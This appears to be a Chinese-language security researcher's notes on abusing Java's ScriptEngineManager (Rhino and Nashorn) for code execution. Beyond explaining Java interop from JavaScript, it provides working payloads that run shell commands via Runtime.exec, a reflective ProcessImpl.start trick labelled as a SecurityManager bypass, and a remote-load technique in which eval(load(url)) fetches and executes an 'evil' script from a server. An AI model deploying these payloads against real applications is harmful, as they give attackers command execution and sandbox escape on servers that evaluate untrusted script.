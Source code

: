 # ScriptEngineManager

Java 6/7采用的js解析引擎是Rhino

java8开始换成了Nashorn。

## 调用Java方法

前面加上全限定类名即可

```js
var s = [3];
s[0] = "cmd";
s[1] = "/c";
s[2] = "whoami";
var p = java.lang.Runtime.getRuntime().exec(s);
var sc = new java.util.Scanner(p.getInputStream(),"GBK").useDelimiter("\\A");//输出
var result = sc.hasNext() ? sc.next() : "";
print(result)
sc.close();
```

## 导入Java类型

```js
var str = java.lang.String;

 //这种写法仅仅支持Nashorn，Rhino并不支持。jdk8+
var str = Java.type("java.lang.String");//类型
-----------------------------------------数组--------------------------------
// Rhino
var Array = java.lang.reflect.Array
var intClass = java.lang.Integer.TYPE
var array = Array.newInstance(intClass, 8)

// Nashorn
var str = Java.type("java.lang.String[]");
var IntArray = Java.type("int[]")
var array = new IntArray(8)
```

## 导入Java class

>通过反射可以获得java类

```js
// Rhino
var str = java.lang.String.class;
var impl = java.lang.ProcessImpl.class;

// Nashorn
var str = Java.type("java.lang.String").class;//类型
var impl = Java.type("java.lang.ProcessImpl").class;
```

## 导入Java类

```js
load("nashorn:mozilla_compat.js");

importClass(java.util.HashSet);
var set = new HashSet();

importPackage(java.util);
var list = new ArrayList();
```

在一些特殊情况下，导入的全局包会影响js中的函数，例如类名冲突。这个时候可以用JavaImporter，并配合with语句，对导入的Java包设定一个使用范围。

```js
// create JavaImporter with specific packages and classes to import

var SwingGui = new JavaImporter(javax.swing,
                            javax.swing.event,
                            javax.swing.border,
                            java.awt.event);
with (SwingGui) {
    // 在with里面才可以调用swing里面的类，防止污染
    var mybutton = new JButton("test");
    var myframe = new JFrame("test");
}
```

## 方法调用

方法在JavaScript中实际上是对象的一个属性，所以除了使用 . 来调用方法之外，也可以使用[]来调用方法：

```js
var System = Java.type('java.lang.System');
System.out.println('Hello, World');    // Hello, World
System.out['println']('Hello, World'); // Hello, World
```

## 方法重载

Java支持重载（Overload）方法，例如，System.out 的 println 有多个重载版本，如果你想指定特定的重载版本，可以使用[]指定参数类型。例如：

```js
var System = Java.type('java.lang.System');
System.out['println'](3.14);          // 3.14
System.out['println(double)'](3.14);  // 3.14
System.out['println(int)'](3.14);     // 3
```

## 反射

```js
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;

public class main {
    public static void main(String[] args) throws Exception {
        String poc1 = "var s = [3];\n" +
                "s[0] = \"cmd\";\n" +
                "s[1] = \"/c\";\n" +
                "s[2] = \"whoami\";" +
                "var p = java.lang.Runtime.getRuntime().exec(s);\n" +
                "var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\n" +
                "var result = sc.hasNext() ? sc.next() : \"\";\n" +
                "print(result);sc.close();";

        String bypass_sm_exp = "var str = Java.type('java.lang.String[]').class;" +
                "var map = Java.type('java.util.Map').class;" +
                "var string = Java.type('java.lang.String').class;" +
                "var Redirect = Java.type('java.lang.ProcessBuilder.Redirect[]').class;" +
                "var boolean = Java.type('boolean').class;" +
                "var c = java.lang.Class.forName('java.lang.ProcessImpl');" +
                "var start = c.getDeclaredMethod('start',str,map,string,Redirect,boolean);" +
                "start.setAccessible(true);" +
                "var anArray = [\"cmd\", \"/c\", \"ipconfig\"];" +
                "var cmd = Java.to(anArray, Java.type(\"java.lang.String[]\"));" +
                "var input = start.invoke(null,cmd,null,null,null,false).getInputStream();" +
                "var reader = new java.io.BufferedReader(new java.io.InputStreamReader(input));" +
                "var stringBuilder = new java.lang.StringBuilder();" +
                "var line = null;" +
                "while((line = reader.readLine())!=null){" +
                "stringBuilder.append(line);" +
                "stringBuilder.append('\\r\\n');"+
                "}" +
                "stringBuilder.toString();" +
                "print(stringBuilder)";
        ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js");
        engine.eval(bypass_sm_exp);
    }
}
```
2021/12/21 更新

## 远程加载

之前在安全客上介绍了这个利用思路[文章](https://www.anquanke.com/post/id/248771#h3-3)，当时没有利用成功，今天晚上jiang师傅给我说了利用思路。大概是一个load()去远程加载执行。

https://anuradha-15.medium.com/loading-scripts-using-nashorn-85585f495cf0

```java
String url = "http://127.0.0.1:8089/evil" ;
eval("load('"+url+"')");
```
evil
```java
var a=exp();function exp(){var x=new java.lang.ProcessBuilder; x.command("calc"); x.start();};
```
